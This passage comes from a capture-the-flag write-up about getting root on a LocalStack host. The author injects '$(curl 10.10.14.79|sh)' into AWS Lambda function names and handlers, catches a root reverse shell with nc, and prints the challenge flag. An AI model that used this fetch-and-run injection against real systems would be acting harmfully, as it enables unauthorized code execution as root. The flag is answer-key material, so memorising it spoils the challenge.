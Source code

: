 We can also identify the commands run on the machine as root via uploading pspy64 at https://github.com/DominicBreuker/pspy .
```text
2023/07/17 16:48:51 CMD: UID=0     PID=49784  | /opt/code/localstack/.venv/bin/python /opt/code/localstack/.venv/bin/aws --endpoint-url=http://localhost:4566 lambda list-event-source-mappings --function-name example 
```

Now lets do another command injection payload, either make bash SUID, reverse shell back, etc. Many options. Here is what I did:
```sh
$ aws lambda create-function --function-name 'rce$(curl 10.10.14.79|sh)' --zip-file fileb://example.zip --role arn:aws:iam::123456789012:role/lambda-role --endpoint-url http://localhost:4566  --handler '$(curl 10.10.14.79|sh)' --runtime nodejs12.x
{
    "FunctionName": "rce$(curl 10.10.14.79|sh)",
    "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:rce$(curl 10.10.14.79|sh)",
    "Runtime": "nodejs12.x",
    "Role": "arn:aws:iam::123456789012:role/lambda-role",
    "Handler": "$(curl 10.10.14.79|sh)",
    "CodeSize": 295,
    "Description": "",
    "Timeout": 3,
    "LastModified": "2023-07-17T16:47:08.430+0000",
    "CodeSha256": "Kgo1bpwoy8e0gJDdNF50pEELqD00ItnsKYonXf45tM8=",
    "Version": "$LATEST",
    "VpcConfig": {},
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "804e01a6-f18c-402c-a8ce-973f7dc35eec",
    "State": "Active",
    "LastUpdateStatus": "Successful",
    "PackageType": "Zip"
}
$ aws lambda invoke --function-name 'rce' --endpoint-url http://localhost:4566 out.json
```

Reverse shell as root returned and we can read the root flag!
```sh
$ nc -nlvp 4444
Ncat: Version 7.94 ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.229.92:41486.
bash: cannot set terminal process group (-1): Not a tty
bash: no job control in this shell
bash-5.0# cat /root/flag.txt
HTB{cl0ud_ch41ns_3m1t_p0w3r}
```

Flag: `HTB{cl0ud_ch41ns_3m1t_p0w3r}`